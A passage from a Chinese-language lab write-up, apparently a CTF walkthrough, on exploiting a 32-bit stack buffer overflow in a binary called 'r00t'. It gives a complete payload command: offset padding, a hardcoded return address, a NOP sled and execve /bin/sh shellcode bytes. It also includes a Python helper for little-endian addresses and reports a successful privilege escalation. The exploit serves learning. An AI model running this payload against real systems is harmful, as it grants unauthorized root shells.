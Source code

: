 image-20241227212112388  
  
x86系统  
  
如果输出是 x86_64，则表示你在使用 64 位系统（x64）。  
  
如果输出是 i686 或 i386，则表示你在使用 32 位系统（x86）。  
  
**Shell-Storm** 搜索关键字**获取shellcode**，x86 - execve  
```
https://shell-storm.org/shellcode/index.html

```  
> 白小羽  
> execve：表示可执行文件的意思  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4CcuFmFd0lnEG0HhIkHCXwEPIJIHO6efia8kCbzVQBlS7ibjdaeibdmdl6tSQ/640?wx_fmt=png&from=appmsg "")  
  
image-20241227212748996  
  
然后我们需要的是shellcode，所以关键字就是，execve、x86、shellcode，就能定位到这个，中间的哪个表示需要执行的命令也就是获取一个shell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4Ccu5Jqazwyt3g8jORzPicCvrBrmlkRbQotmYMToBybAZAeJU9iav8jyGUYg/640?wx_fmt=png&from=appmsg "")  
  
image-20241227213244966  
  
这下就能组成一个payload了  
```
./r00t $(python -c 'print "A"*偏移量 + "esp起始地址" + "nop sled"*20 + "shellcode"')

./r00t $(python -c 'print "A"*268 + "\x80\xfb\xff\xbf" + "\x90"*20 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"')

```  
> 白小羽  
> nop sled
是一种可以破解栈随机化的缓冲区溢出攻击方式  
> 栈随机化指运行时栈的起始地址为随机的，所以我们存放shellcode的esp的地址也会发生对应的改变  
> 在shellcode前注入很长的 nop（\x90） 指令 （无操作，仅使程序计数器加一）序列，  
> 程序计数器逐步加一，直到到达攻击代码的存在的地址  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/5975bXHXfWH1IO3ibjQXrYxicpAbsy4Ccu9ftxT6T15zO8Vn0y57hzrTkiaWl29jOyTtAOBlZfOV14pMwX9KNXc2A/640?wx_fmt=png&from=appmsg "")  
  
image-20241227213747063  
  
提权成功  
  
另外这个esp起始地址一定是要固定不变的吗？  
  
我们把他修改为返回后的esp地址也就是0xbffffb50，之前是0xbffffb80，上python代码（这个脚本可以保存好，经常要用）  
```
address = 0xbffffb80
byte_sequence = address.to_bytes(4, byteorder='little')
hex_representation = ''.join(f'\\x{byte:02x}' for byte in byte_sequence)
print(hex_representation) # \x50\xfb\xff\xbf

```  
  
